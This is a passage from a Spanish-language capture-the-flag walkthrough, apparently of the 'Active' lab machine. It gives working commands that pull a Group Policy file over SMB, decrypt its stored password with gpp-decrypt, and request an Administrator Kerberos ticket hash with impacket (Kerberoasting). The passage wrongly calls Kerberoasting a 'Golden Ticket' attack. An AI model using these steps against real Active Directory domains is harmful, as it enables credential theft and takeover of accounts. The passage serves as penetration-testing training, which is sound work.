 Vemos que hay un archivo bastante interesante llamado `groups.xml` por lo que nos lo descargaremos de la siguiente forma:

```shell
smbmap -H <IP_VICTIM> --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/groups.xml
```

Y esto lo que hara sera descargarnos el archivo en nuestro directorio actual.

vendria con un nombre muy largo, por lo que se lo podriamos cambiar con `mv` y se lo dejaremos en `groups.xml`

Y si vemos el contenido veremos que contiene politicas de grupo de un entorno de `Active Directory`, con esto suele ocurrir que suele venir algun hash de alguna contraseña que viene protegida y en este caso si viene con un hash que intentaremos crackear.

Pero tendremos que utilizar una herramienta especial para poder crackear contraseñas que se encuentren dentro del archivo `group.xml` de un entorno de `Active Directory`.

Por lo que antes nos instalaremos la herramienta:

```shell
apt install gpp-decrypt
```

Y la utilizaremos de la siguiente forma:

```shell
gpp-decrypt "<HASH_PASSWORD_groups.xml>"
```

Y esto nos devolvera como resultado la contraseña en texto plano desencriptada, que por ejemplo pongamos que seria esta:

```
GPPstillStandingStrong2k18
```

Y tambien tendriamos el usuario de dicha contraseña, ya que el nombre del usuario se encuentra dentro del archivo `groups.xml` que en este caso se llamara `SVC_TGS`

### Ataque Kerberoasting (Golden Ticket)

Teniendo las credenciales de un usuario, podremos probar a ejecutar un ataque llamado `KERBEROASTING` de `Active Directory` para obtener su `Golden Ticket` del administrador y asi obtener los maximos privilegios, por lo que haremos lo siguiente:

```shell
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

Y con esto obtendriamos el hash `administrador` mediante la cuenta de `SVC_TGS`, que se veria algo asi:

```
$krb5tgs$23$*Administrator$ACTIVE.LOCAL$active.htb/Administrator*$<HASH_ADMIN>...
```

Por lo que copiaremos el hash entero y lo pegaremos en un archivo de texto:
